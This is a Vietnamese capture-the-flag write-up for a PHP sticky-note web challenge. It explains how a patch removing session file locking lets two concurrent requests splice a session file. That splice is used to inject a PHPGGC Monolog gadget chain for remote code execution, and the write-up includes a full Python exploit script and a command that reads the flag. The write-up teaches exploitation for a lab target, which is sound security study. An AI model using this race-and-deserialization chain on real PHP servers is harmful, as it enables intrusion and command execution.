

# No Flock

| Competition | W1 Recruit       |
| ----------- | ---------------- |
| Category    | Web Exploitation |

## Overview

> Challenge cung cấp một web sticky note. Có thể tạo note, share note bằng password và có một note flag ở `/s/f1a6c0de5eedf1a6`.

## Solution

### Reading the Source Code

Đầu tiên mình mở `app/public/index.php` để xem note được tạo, lưu và share như thế nào. Ngay phần đầu file có `session_start()`, đồng thời app cũng import Monolog.

```php
require __DIR__ . '/../vendor/autoload.php';

use Monolog\Handler\StreamHandler;
use Monolog\Logger;

const ROOT_HASH = '$2y$12$ZJ/VVi7VHWve2rf5MQ9tFecUAWt9Jy6mrvhezhKa6FKbwF8.keIFO';
const FLAG_NOTE_ID = 'f1a6c0de5eedf1a6';
const SHARE_DIR = '/tmp/sticky/shares';

$logger = new Logger('notes');
$logger->pushHandler(new StreamHandler('/tmp/app.log', Logger::WARNING));

session_start();
```

Nhìn thấy Monolog, mình thử PHPGGC trước để xem version trong challenge có chain nào dùng được không.

```bash
$ ./phpggc -l Monolog | grep RCE8
Monolog/RCE8    3.0.0 <= 3.1.0+                    RCE: Function Call    __destruct    *

$ ./phpggc Monolog/RCE8 system 'id > /tmp/test_payload'

Deprecated: Creation of dynamic property Monolog\LogRecord::$mixed is deprecated in /Users/4uckd3v/phpggc/gadgetchains/Monolog/RCE/8/gadgets.php on line 18
O:28:"Monolog\Handler\GroupHandler":1:{s:11:"*handlers";a:1:{i:0;O:29:"Monolog\Handler\BufferHandler":6:{...}}
```

`composer.json` dùng `monolog/monolog: ^3.12`. Dấu `+` trong output của PHPGGC nghĩa là chain áp dụng từ `3.1.0` trở lên, nên bản `3.12` vẫn nằm trong range này. Sau đó mình đọc các route bên dưới để tìm chỗ data có thể đi vào `unserialize()`, nhưng chưa thấy input nào được xử lý theo hướng đó.

#### Shared Notes

`FLAG_NOTE_ID` là id của note chứa flag, còn `ROOT_HASH` là hash password để mở note đó. Phần xử lý shared note nằm ở các hàm sau:

```php
function new_id(): string
{
    return bin2hex(random_bytes(8));
}

function share_file(string $id): string
{
    return SHARE_DIR . '/' . $id . '.json';
}

function share_load(string $id): ?array
{
    if (!preg_match('/^[a-f0-9]{16}$/', $id)) {
        return null;
    }
    if ($id === FLAG_NOTE_ID) {
        return [
            'id' => FLAG_NOTE_ID,
            'title' => 'Flag',
            'body' => '',
            'password_hash' => ROOT_HASH,
            'special' => true,
        ];
    }
    $file = share_file($id);
    if (!is_file($file)) {
        return null;
    }
    $data = json_decode((string)file_get_contents($file), true);
    return is_array($data) ? $data : null;
}
```

Với shared note bình thường, id được dùng để tạo path `/tmp/sticky/shares/<id>.json`. Mình có thử nhìn theo hướng path traversal, nhưng id bị ép đúng 16 ký tự `[a-f0-9]`, nên không đưa `../` hay `/` vào path được.

Flag note lại được xử lý riêng. Khi id là `f1a6c0de5eedf1a6`, `share_load()` return một array hardcode trước khi đọc file JSON. Vì vậy nếu ghi được `/tmp/sticky/shares/f1a6c0de5eedf1a6.json` thì file đó cũng không được dùng.

Hàm ghi shared note thì khá đơn giản:

```php
function share_store(array $note): void
{
    if (!is_dir(SHARE_DIR)) {
        @mkdir(SHARE_DIR, 0700, true);
    }
    file_put_contents(share_file($note['id']), json_encode($note, JSON_INVALID_UTF8_SUBSTITUTE));
    @chmod(share_file($note['id']), 0600);
}
```

Chi tiết này lúc đầu chưa cho mình cách ghi file tùy ý, nhưng nó cho thấy chỉ cần share một note bình thường thì app sẽ tự tạo folder `/tmp/sticky/shares`.

#### Creating and Sharing Notes

Route tạo note nhận `title` và `body`, rồi đưa cả hai vào `$_SESSION['notes']`.

```php
if ($route === '/note' && $method === 'POST') {
    $title = trim((string)($_POST['title'] ?? ''));
    $body = (string)($_POST['body'] ?? '');
    if (strlen($body) > 4096) {
        http_response_code(422);
        exit('note too long');
    }
    $id = new_id();
    $_SESSION['notes'][$id] = [
        'title' => $title === '' ? 'Untitled' : $title,
        'body' => $body,
        'shared' => false,
        'created' => time(),
    ];
    header('Location: /note?id=' . $id);
    exit;
}
```

`body` cho nhập tối đa 4096 bytes. Khi mở lại note, `title` và `body` đều đi qua `htmlspecialchars()`:

```php
<h1><?= htmlspecialchars($note['title']) ?></h1>
<div class="card">
<div class="notebody"><?= htmlspecialchars($note['body']) ?></div>
</div>
```

Vì vậy thử HTML injection hay XSS ở đây sẽ không được. Tuy nhiên body khá dài, và sau route này nó nằm trong session.

Khi share, app lấy note từ session, hash password rồi gọi `share_store()`:

```php
if ($route === '/note/share' && $method === 'POST') {
    $id = (string)($_POST['id'] ?? '');
    $password = (string)($_POST['password'] ?? '');
    $note = $_SESSION['notes'][$id] ?? null;

    if ($note === null) {
        http_response_code(404);
        exit('note not found');
    }
    if (strlen($password) < 4) {
        http_response_code(422);
        exit('password too short');
    }

    $note['shared'] = true;
    $note['password_hash'] = password_hash($password, PASSWORD_DEFAULT);
    $_SESSION['notes'][$id] = $note;
    share_store([
        'id' => $id,
        'title' => $note['title'],
        'body' => $note['body'],
        'password_hash' => $note['password_hash'],
        'created' => $note['created'],
    ]);
}
```

#### Opening a Shared Note

Route `/s/<id>` load note rồi kiểm tra password. Nhánh đúng `ROOT_HASH` là nơi app chạy `/readflag`.

```php
if ($method === 'POST') {
    $password = (string)($_POST['password'] ?? '');
    if (password_verify($password, ROOT_HASH)) {
        $logger->info('flag note unlocked');
        ob_start();
        system('/readflag');
        $flag = (string)ob_get_clean();
        // render flag
        exit;
    }
    if (password_verify($password, (string)$shared['password_hash'])) {
        // render shared note body
        exit;
    }
    sleep(2);
    $_SESSION['attempts'] = ($_SESSION['attempts'] ?? 0) + 1;
    $logger->warning('share unlock failed', ['attempts' => $_SESSION['attempts']]);
}
```

Nếu password sai, request đứng ở `sleep(2)` rồi tăng `attempts`. Ban đầu mình tưởng đây là rate limit, nhưng `attempts` chỉ được hiển thị lại và không có đoạn nào dùng nó để limit cả.

Đọc hết `index.php` mình vẫn chưa thấy một chỗ inject trực tiếp. Hai chi tiết còn lại là note được giữ trong `$_SESSION`, và request sai password sẽ đứng yên 2 giây. Lúc này mình quay lại folder `patch`.

### Patch Analysis

Trong attachment có `patch/no-flock.patch`:

```diff
--- a/ext/session/mod_files.c
+++ b/ext/session/mod_files.c
@@ -206,10 +205,6 @@
-           do {
-               ret = flock(data->fd, LOCK_EX);
-           } while (ret == -1 && errno == EINTR);
```

`Dockerfile` không chỉ để lại patch làm hint. PHP trong container được download từ source, apply patch rồi mới build:

```dockerfile
RUN curl -fsSL https://www.php.net/distributions/php-8.5.10.tar.gz -o php.tar.gz \
 && tar xzf php.tar.gz \
 && cd php-8.5.10 \
 && patch -p1 < ../no-flock.patch \
 && ./configure --disable-all --enable-session --enable-fpm ... \
 && make -j"$(nproc)" \
 && make install
```

Vậy PHP chạy trong container là bản đã bị sửa thật. Search `mod_files.c` thì đây là file handler session dạng file của PHP. Vì input của route `/note` đang nằm trong `$_SESSION`, mình bắt đầu đọc cách PHP mở, ghi và khóa session file.

### Required Background

#### PHP Session Files

Browser không giữ nguyên data của `$_SESSION`. Nó thường chỉ gửi cookie chứa session id, ví dụ:

```http
Cookie: PHPSESSID=ducdev
```

Với file session handler của PHP, data thật nằm trên server trong file có dạng:

```text
/tmp/sess_<sessionid>
```

Nghĩa là với cookie ở trên, PHP sẽ làm việc với `/tmp/sess_ducdev`.

Khi `session_start()` chạy, PHP mở file session, đọc data rồi decode vào `$_SESSION` của request hiện tại. Code phía dưới chỉ sửa bản data trong memory. Đến cuối request, PHP encode `$_SESSION` và ghi ngược lại file, trừ khi session đã được đóng sớm bằng `session_write_close()`.

```text
session_start()  ->  đọc file và decode vào $_SESSION
code PHP         ->  sửa $_SESSION trong memory
request kết thúc  ->  encode $_SESSION rồi ghi lại session file
```

Vậy nên F5 xong vẫn là session cũ, miễn là cookie không đổi. `session_start()` sẽ load lại file `sess_<sid>` tương ứng; không phải mỗi lần gán vào `$_SESSION` là data lập tức được ghi xuống disk.

Khi tạo một note rồi nhập sai password một lần, file session có dạng tương tự như sau:

```text
notes|a:1:{s:16:"a1f8204658d2deb7";a:4:{s:5:"title";s:24:"bbbbbbbbbbbbbbbbbbbbbbbb";s:4:"body";s:2:"bb";s:6:"shared";b:0;s:7:"created";i:1789567898;}}attempts|i:1;
```

Session handler `php` lưu từng biến theo format `<variable_name>|<serialized_value>`. Phần sau dấu `|` dùng format serialize của PHP. Trong file trên, `notes` là một serialized array, còn `attempts` là integer `1`.

#### `flock()`

`flock()` là hàm khóa file. PHP gọi nó với `LOCK_EX`, nên tại một thời điểm chỉ một request lấy được lock của một session file.

Ví dụ request A mở `/tmp/sess_ducdev` trước. B cũng dùng `PHPSESSID=ducdev`, nên khi vào file handler B cũng gọi `flock()` trên đúng file đó. A đang giữ lock thì B đứng chờ ngay ở `flock()`. Đến khi A ghi session xong và đóng file, B mới lấy được lock rồi đi tiếp. Hàm này không tự sửa nội dung file; nó chỉ giữ B lại để A làm xong lượt của mình.

PHP giữ lock từ lúc mở session tới lúc request đóng session. Vì vậy B sẽ đọc bản session A vừa ghi, thay vì đọc bản cũ cùng lúc với A.

Đoạn lock đó chính là `flock()` trong `mod_files.c`:

```c
do {
    ret = flock(data->fd, LOCK_EX);
} while (ret == -1 && errno == EINTR);
```

Ví dụ với bản PHP chưa patch, A và B sẽ chạy theo thứ tự này:

```text
A: session_start() -> flock() lấy lock -> đọc session cũ -> sleep(2)
B: session_start() -> flock() chờ

A: tăng attempts -> ghi session -> close file, thả lock
B: lấy được lock -> đọc file A vừa ghi -> xử lý request B
```

B chưa kịp đọc data nào khi A đang sleep. Sau khi A xong, B chỉ đọc được bản session đã có `attempts` của A. Hai request dùng cùng session vì thế không có chung một bản snapshot cũ để ghi đè lẫn nhau.

Patch xoá đoạn này. Hai request có cùng `PHPSESSID` lúc này có thể cùng đọc session file, rồi mỗi request tự sửa bản copy của mình. Mình thử cho hai request chạy cùng lúc.

#### Race Condition and Lost Update

Khi không còn lock, hai request có thể cùng chạy trên một session file. A và B cùng đọc một bản session cũ. B ghi thay đổi của B trước, rồi A đem bản cũ của mình ghi đè lên. Đây là lost update: thay đổi của B biến mất vì A không hề biết B đã ghi file trong lúc A đang xử lý.

Khoảng dừng 2 giây ở nhánh sai password là chỗ mình dùng để canh race. Request A gửi password sai đến flag note. A đã đọc session rồi đi vào `sleep(2)`. Trong 2 giây này, request B dùng cùng cookie tạo thêm một note có body dài. B kết thúc trước nên sẽ ghi session file dài hơn; A tỉnh dậy, chỉ tăng `attempts` trên bản session cũ rồi ghi file sau B.

Nhưng lúc chạy thử, file cuối không chỉ bị mất update như vậy. Lúc đọc session, `mod_files.c` lưu size file vào `data->st_size`:

```c
if (zend_fstat(data->fd, &sbuf)) {
    return FAILURE;
}

data->st_size = sbuf.st_size;
```

Lúc ghi lại session, PHP chỉ truncate file nếu data mới ngắn hơn chính `st_size` đã lưu lúc request bắt đầu. Sau đó `pwrite()` luôn ghi từ offset `0`:

```c
if (ZSTR_LEN(val) < data->st_size) {
    php_ignore_value(ftruncate(data->fd, 0));
}

n = pwrite(data->fd, ZSTR_VAL(val), ZSTR_LEN(val), 0);
```

A đã đọc file lúc nó còn ngắn, nên `st_size` của A là size cũ. B làm file trên disk dài ra. Khi A ghi lại, data của A có thêm `attempts`, dài hơn file A đã đọc nên nhánh `ftruncate()` không chạy. `pwrite()` của A chỉ ghi đè phần đầu file từ offset 0, còn phần đuôi dài hơn do B tạo vẫn nằm nguyên ở đó.

Nếu gọi data mà A ghi là `A`, còn data dài mà B đã ghi là `B`, kết quả trên disk sau cùng sẽ là:

```text
final = A[0 : len(A)] + B[len(A) : len(B)]
```

Phần đầu file bị thay bằng toàn bộ data của A. Đến đúng byte A ghi cuối cùng, `pwrite()` dừng; các byte còn lại của B không bị đụng tới. Đây là cấu trúc prefix A + suffix B.

Để nhìn đúng chỗ nối, giả sử `len(A)` vừa tới trước chữ `body` của B. `X` bên dưới là 13 byte của B bị A ghi đè:

```text
A ghi:       notes|BASE;attempts|i:1;
B ghi trước:  notes|BASE;XXXXXXXXXXXXXbody|s:20:"AAAAAAAAAAAAAAAAAAAA";

File cuối:
               notes|BASE;attempts|i:1;body|s:20:"AAAAAAAAAAAAAAAAAAAA";
               \_______________________/\________________________________________/
                       prefix A                       suffix còn lại của B
```

Trong file thật, ranh giới có thể cắt giữa id note, tên field, hoặc body của B; nó không cần rơi đúng ở đầu `body` như ví dụ. Điều cần có là B đủ dài để sau khi A ghi xong vẫn còn một đoạn suffix cho session parser đọc tiếp.

Khi debug bằng `cat`, mình từng có file session như sau:

```text
$ cat sess_ducdev-8775
notes|a:1:{...base note...}attempts|i:1;62b73d2b";a:4:{s:5:"title";s:2:"cc";s:4:"body";s:530:"dddddddddddddddddddddddddddddddd..."
```

Đầu file là session A ghi lại, kết thúc ở `attempts|i:1;`. Chuỗi `62b73d2b...` ngay sau đó lại là phần của note B. Đây là lúc mình xác nhận được file cuối có thể là prefix của A ghép với suffix còn sót của B.

### Constructing the Payload

#### Preparing the Object

Payload PHPGGC có warning `Deprecated` đứng trước object. Nếu redirect thẳng stdout vào file rồi dùng luôn thì warning cũng đi theo payload. Vì vậy trong script mình đọc output bằng bytes, tìm byte `O:` đầu tiên rồi lấy phần còn lại.

```python
start = raw.find(b"O:")
payload = raw[start:].rstrip(b"\r\n")
```

Payload này có null byte trong tên protected property. `xxd` cho thấy phần `\x00*\x00handlers` thực sự là byte `00`, nên không nên xử lý nó bằng string thông thường:

```text
00000020: 4772 6f75 7048 616e 646c 6572 223a 313a  GroupHandler":1:
00000030: 7b73 3a31 313a 2200 2a00 6861 6e64 6c65  {s:11:".*.handle
```

#### Putting the Payload into the Session

Mình thử để object trong body trước, nhưng nó vẫn nằm trong string của note. Phần suffix còn sót của B phải tạo được một entry mới ở top-level của session file.

Vì session parser đọc theo dạng `name|value`, payload được ghi với prefix sau:

```text
malicious|O:28:"Monolog\Handler\GroupHandler":1:{...}
```

Sau khi A ghi lại prefix kết thúc ở `attempts|i:1;`, parser tiếp tục đọc suffix của B. Phần metadata của note B không có dấu `|`, nên nó bị đọc như phần đầu của tên biến. Đến `malicious|`, parser gặp delimiter và bắt đầu decode object ngay sau đó. Phần đuôi của note B vẫn còn sau object và sẽ làm parser báo lỗi ở lượt đọc tiếp theo.

`r:N` trong PHP serialization là reference tới một object/value đã xuất hiện trước đó, thay vì serialize lại object đó lần nữa. Payload PHPGGC được sinh khi object đứng một mình nên reference đầu tiên của nó là `r:3`.

Khi PHP decode file session theo handler `php`, nó không tạo một reference table mới cho từng session variable. `var_hash` được khởi tạo một lần trước vòng lặp, rồi cả `notes`, `attempts` và entry giả đều dùng chung table này:

```c
PHP_VAR_UNSERIALIZE_INIT(var_hash);

while (p < endptr) {
    // đọc name|value
    current = var_tmp_var(&var_hash);
    if (php_var_unserialize(current, ..., &var_hash)) {
        php_set_session_var(name, &rv, &var_hash);
    }
}
```

Nên khi object của payload được đọc, những array/object PHP đã gặp trong `notes` cũng đã chiếm entry trong reference table. `r:3` lúc này không còn trỏ tới object mà gadget cần nữa. Số reference không chỉ tính số biến top-level như `notes` và `attempts`; những phần tử được parser đi qua bên trong chúng cũng ảnh hưởng vào table.

Với base note của script, mình thử lại từng giá trị và chain chạy khi đổi reference đầu tiên thành `r:8`:

```python
payload = payload.replace(b"r:3;", b"r:8;", 1)
```

Payload đứng một mình dùng slot `3`. Với layout session này, phần `notes` và `attempts` được decode trước payload đã làm lệch mục tiêu đó thêm 5 slot, nên `r:3` phải thành `r:8`. Đây là 5 entry trong reference table của unserializer, không phải chỉ đếm hai biến `notes` và `attempts`. Số `8` cũng không liên quan version Monolog; thêm bớt note hoặc đổi layout session thì phải đo lại.

Một chỗ dễ nhầm là phần đuôi của serialized note B vẫn còn sau object. Sau khi decode object xong, session parser tiếp tục đọc đuôi này, không tìm được dấu `|` của entry kế tiếp và báo lỗi:

```text
Warning: session_start(): Failed to decode session object. Session has been destroyed in /var/www/public/index.php on line 14
```

Lỗi này có thể xuất hiện cả khi chain đã chạy. Object đã được `php_var_unserialize()` tạo trước khi parser đụng phần đuôi; lúc PHP dọn data sau khi decode thất bại, destructor của object được gọi và gadget trigger ở đây. Vì vậy mình kiểm tra kết quả bằng file/note mà command tạo ra, không chỉ nhìn warning để quyết định `r:8` đúng hay sai.

#### Reading the Flag after RCE

RCE chạy `/readflag`, rồi ghi output vào một shared note mới để đọc lại từ browser. Nội dung `argument-file.txt` là:

```php
php -r '$f=shell_exec("/readflag");file_put_contents("/tmp/sticky/shares/aaaaaaaaaaaaaaaa.json",json_encode(["id"=>"aaaaaaaaaaaaaaaa","title"=>"x","body"=>$f,"password_hash"=>password_hash("a",PASSWORD_BCRYPT),"created"=>0]));'
```

Trước khi chạy exploit, cần tạo rồi share một note thường. Nếu chưa có `/tmp/sticky/shares`, command trên sẽ lỗi:

```text
Warning: file_put_contents(/tmp/sticky/shares/aaaaaaaaaaaaaaaa.json): Failed to open stream: No such file or directory in Command line code on line 1
```

Sau khi app đã tạo folder, shared note mới có thể mở ở `/s/aaaaaaaaaaaaaaaa` với password `a`.

### Exploit Chain

Mình share một note thường trước để app tạo `/tmp/sticky/shares`. Script dưới đây chọn một `PHPSESSID`, tạo base note, rồi gửi hai request dùng chung cookie. Request A đi vào `sleep(2)` ở flag note; sau một khoảng ngắn request B tạo note chứa payload. Khi A ghi session cũ đè lên B, phần suffix của B giữ lại object payload.

Sau khi script chạy xong, set cookie `PHPSESSID` vừa in ra trong browser rồi mở lại web. `session_start()` nằm ở đầu `index.php`, nên request này sẽ decode file session đã bị race. Command trong payload ghi flag vào shared note `aaaaaaaaaaaaaaaa`, sau đó mở `/s/aaaaaaaaaaaaaaaa` bằng password `a`.

Mấy biến đầu script mình để đổi được URL và path PHPGGC:

```bash
TARGET_URL=http://localhost:8888 PHPGGC_PATH=~/phpggc/phpggc python3 exploit.py < argument-file.txt
```

#### exploit.py

```python
import os
import requests
import random
import time
import subprocess
from pathlib import Path
import concurrent.futures


URL = os.environ.get("TARGET_URL", "http://localhost:8888")
SESSION_ID = "ducdev-" + str(random.randrange(0, 20000))
PHPGGC_PATH = os.environ.get("PHPGGC_PATH", "./phpggc")
PAYLOAD_PATH = Path("payload.txt")

CREATE_NOTE_URL = URL + "/note"
FLAG_NOTE_URL = URL + "/s/f1a6c0de5eedf1a6"

cookies = {"PHPSESSID": SESSION_ID}
argument = input()


def create_session():
    print("[+] Create session: {}".format(SESSION_ID))
    try:
        response = requests.get(url=URL, cookies=cookies)
        print("[+] Success!")
        # print(response.text)
    except Exception as e:
        print("[+] Failed!")
        print(e)


def create_payload(cmd="system", arg=argument):
    raw = subprocess.check_output(
        [
            "php",
            "-d",
            "display_errors=0",
            "-d",
            "error_reporting=E_ALL & ~E_DEPRECATED & ~E_USER_DEPRECATED",
            PHPGGC_PATH,
            "Monolog/RCE8",
            cmd,
            arg,
        ],
        stderr=subprocess.DEVNULL,
    )

    start = raw.find(b"O:")
    payload = raw[start:].rstrip(b"\r\n")
    payload = payload.replace(b"r:3;", b"r:8;", 1)
    PAYLOAD_PATH.write_bytes(b"malicious|" + payload)
    # os.system(f"xxd {PAYLOAD_PATH}")


def send_post_request(url, body={}):
    requests.post(url=url, cookies=cookies, data=body)


def exploit():
    create_session()
    create_payload()

    send_post_request(
        CREATE_NOTE_URL,
        {
            "title": "bbbbbbbbbbbbbbbbbbbbbbbb",
            "body": "bb",
        },
    )

    with concurrent.futures.ThreadPoolExecutor(max_workers=10000) as executor:
        executor.submit(send_post_request, FLAG_NOTE_URL, {"password": "ducdev"})
        time.sleep(0.1)

        request_body = {
            "title": "ducdev",
            "body": PAYLOAD_PATH.read_bytes(),
        }
        executor.submit(send_post_request, CREATE_NOTE_URL, request_body)


exploit()
```

## Flag



## References

- [PHP Manual - session_start](https://www.php.net/manual/en/function.session-start.php)
- [PHP Manual - Runtime Configuration: session.serialize_handler](https://www.php.net/manual/en/session.configuration.php#ini.session.serialize-handler)
- [PHP Manual - flock](https://www.php.net/flock)
- [PHP Source - ext/session/mod_files.c](https://github.com/php/php-src/blob/master/ext/session/mod_files.c)
- [PHPGGC - Monolog/RCE8](https://github.com/ambionics/phpggc/tree/master/gadgetchains/Monolog/RCE/8)
